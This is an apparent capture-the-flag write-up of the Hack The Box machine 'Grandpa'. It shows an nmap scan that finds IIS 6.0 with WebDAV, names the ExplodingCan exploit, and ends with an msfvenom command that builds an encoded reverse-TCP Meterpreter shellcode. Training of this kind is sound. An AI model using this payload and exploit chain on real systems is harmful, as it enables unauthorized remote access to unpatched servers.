 Grandpa
=======

This box is rated easy on HTB, but I decided to give myself a challenge and do this box OSCP style: no metasploit, no meterpreter, etc.

Enumeration
-----------

### Nmap

`nmap -A grandpa.htb`
```
# Nmap 7.70 scan initiated Thu Apr 18 17:19:36 2019 as: nmap -A -p- -o nmap 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.073s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT                                                                                       
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK                                                                        
|   WebDAV type: Unkown
|   Server Date: Fri, 19 Apr 2019 00:16:28 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                              
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 18 17:21:30 2019 -- 1 IP address (1 host up) scanned in 115.01 seconds
```

A very promising lead is that the server is running Server 2003, which has been EOL for some time. It also looks like a very old version of IIS is running on port 80. WebDav is also enabled.

I would normally do more enumeration from here, but I already know that the exploit 'explodingcan' from the shadowbroker's dump works specifically for this this version of the server.

Getting User
------------

I'm using [danigargu's](https://github.com/danigargu/explodingcan) version of the exploit.

If we look at the exploit, the author mentions that we need to generate our own shellcode for code execution. Fortunately, danigargu has an example msfvenom command that we can use.

```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=172.16.20.1 LPORT=4444 > shellcode
```
